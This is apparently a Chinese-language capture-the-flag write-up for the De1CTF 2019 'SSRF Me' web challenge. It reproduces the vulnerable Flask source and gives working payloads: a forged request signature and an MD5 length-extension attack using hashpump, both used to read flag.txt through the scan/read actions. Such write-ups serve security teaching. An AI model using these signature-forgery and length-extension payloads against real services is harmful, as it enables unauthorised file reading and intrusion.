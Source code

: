 # De1CTF 2019

## Web

### SSRF Me

```python
from flask import Flask 
from flask import request 
import socket 
import hashlib 
import urllib 
import sys 
import os 
import json 
reload(sys) 
sys.setdefaultencoding('latin1')
app = Flask(__name__)
secert_key = os.urandom(16)


class Task: 
    def __init__(self, action, param, sign, ip):
        self.action = action
        self.param = param
        self.sign = sign
        self.sandbox = md5(ip)
        if(not os.path.exists(self.sandbox)): #SandBox For Remote_Addr
            os.mkdir(self.sandbox)
            
    def Exec(self): 
        result = {} 
        result['code'] = 500
        if (self.checkSign()): 
            if "scan" in self.action: 
                tmpfile = open("./%s/result.txt" % self.sandbox, 'w')
                resp = scan(self.param)
                if (resp == "Connection Timeout"): 
                    result['data'] = resp 
                else: 
                    print resp
                    tmpfile.write(resp)
                    tmpfile.close()
                result['code'] = 200
            if "read" in self.action: 
                f = open("./%s/result.txt" % self.sandbox, 'r')
                result['code'] = 200
                result['data'] = f.read()
                if result['code'] == 500:
                    result['data'] = "Action Error"
                else: 
                    result['code'] = 500
                    result['msg'] = "Sign Error"
                return result
            
    def checkSign(self): 
        if (getSign(self.action, self.param) == self.sign): 
            return True 
        else: 
            return False #generate Sign For Action Scan. 
        

@app.route("/geneSign", methods=['GET', 'POST']) 
def geneSign(): 
    param = urllib.unquote(request.args.get("param", "")) # 将 param 的参数解码为原始的字符串形式，若为空则为空字符串
    action = "scan"
    return getSign(action, param)

@app.route('/De1ta',methods=['GET','POST']) 
def challenge(): 
    action = urllib.unquote(request.cookies.get("action"))
    param = urllib.unquote(request.args.get("param", ""))
    sign = urllib.unquote(request.cookies.get("sign"))
    ip = request.remote_addr
    if(waf(param)):
        return "No Hacker!!!!"
    task = Task(action, param, sign, ip)
    return json.dumps(task.Exec())

@app.route('/') 
def index(): 
    return open("code.txt","r").read()

def scan(param):
    socket.setdefaulttimeout(1)
    try: 
        return urllib.urlopen(param).read()[:50] # 只返回URL内容的前50个字符
    except: 
        return "Connection Timeout" 

def getSign(action, param): 
    return hashlib.md5(secert_key + param + action).hexdigest()

def md5(content): 
    return hashlib.md5(content).hexdigest()

def waf(param): 
    check=param.strip().lower()
    if check.startswith("gopher") or check.startswith("file"):
        return True 
    else: 
        return False 
    
if __name__ == '__main__': 
    app.debug = False
    app.run(host='0.0.0.0',port=80)
```

可以获得一个 Hint `flag is in ./flag.txt` ，目标就是要通过上述代码中的 Task::Exec 将 `flag.txt` 写入 `result.txt` 再读取 `result.txt` 获得 flag 。由于判断语句是通过 in 关键字来判断的，因此如果 `self.action` 中既有 read 也有 scan 即可同时执行。

首先需要通过 `checkSign()` ，先利用 `getSign()` 生成 Sign 可以得到 `md5(secert_key + param + action)` 。通过构造 Payload 如下

```
/geneSign?param=flag.txtread
```

即可得到 action 为 `readscan` 的 Sign ，如下

```
278aeedb3970f05c3fef9a85aaf08244
```

然后构造 Payload 如下来使得 `flag.txt` 写入 `result.txt` 再读取 `result.txt` 。

```
[GET]param=flag.txt
[Cookie]action=readscan;sign=278aeedb3970f05c3fef9a85aaf08244
```

就可以得到 flag 了，也可以通过 MD5 长度拓展攻击解决这道题，先获取 `md5(secert_key + flag.txt + scan)` 的值，构造 Payload 如下

```
/geneSign?param=flag.txt
```

可以得到回显如下

```
a62c5d4965f4123788ba12dceef01014
```

通过 `secert_key = os.urandom(16)` 可知 secert\_key 长 16 位，通过 hashpump 进行生成 Payload，如下

```shell
$ hashpump
Input Signature: a62c5d4965f4123788ba12dceef01014
Input Data: scan
Input Key Length: 24
Input Data to Add: read
c151ad5274e2e828bc2eb58f76e2a506
scan\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xe0\x00\x00\x00\x00\x00\x00\x00read
```

就可以求出 `md5(secert_key + flag.txt + scan + padding + read)` 的值，通过构造 Payload 如下

```
[GET]param=flag.txt
[Cookie]sign=c151ad5274e2e828bc2eb58f76e2a506;action=scan%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%e0%00%00%00%00%00%00%00read
```

即可得到 flag。
